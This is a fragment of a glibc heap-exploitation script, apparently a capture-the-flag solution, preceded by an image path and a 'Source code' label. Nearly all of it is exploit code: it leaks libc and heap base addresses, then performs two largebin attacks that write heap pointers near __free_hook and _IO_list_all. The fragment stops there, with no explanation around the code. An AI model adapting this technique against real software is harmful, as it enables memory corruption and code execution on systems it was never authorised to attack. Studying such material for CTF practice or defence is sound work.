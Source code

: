 ```plain
#----- leak libc_base and heap_base
Change(1)
Add(0x430, 'A'*0x158) # A16

Change(2)
Add(0xf0, 'B'*0x48) # B7

Change(1)
Del(16)

Change(2)
Add(0x440, 'B'*0x158) # B8

Change(1)
Show(16)
ru('message is: ')
libc_base = uu64(rl()) - 0x1ebfe0
lg('libc_base')

Edit(16, 'A'*0xf+'\n')
Show(16)
ru('message is: '+'A'*0xf+'\n')
heap_base = uu64(rl()) - 0x13940
lg('heap_base')


#----- first largebin_attack
Edit(16, 2*p64(libc_base+0x1ebfe0) + '\n') # recover
Add(0x430, 'A'*0x158) # A17
Add(0x430, 'A'*0x158) # A18
Add(0x430, 'A'*0x158) # A19

Change(2)
Del(8)
Add(0x450, 'B'*0x168) # B9

Change(1)
Del(17)

Change(2)
free_hook = libc_base + libc.sym['__free_hook']
Edit(8, p64(0) + p64(free_hook-0x28) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C0 triger largebin_attack, write a heap addr to __free_hook-8

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- second largebin_attack
Change(3)
Add(0x380, 'C'*0x118) # C1

Change(1)
Del(19)

Change(2)
IO_list_all = libc_base + libc.sym['_IO_list_all']
Edit(8, p64(0) + p64(IO_list_all-0x20) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C2 triger largebin_attack, write a heap addr to _IO_list_all

```
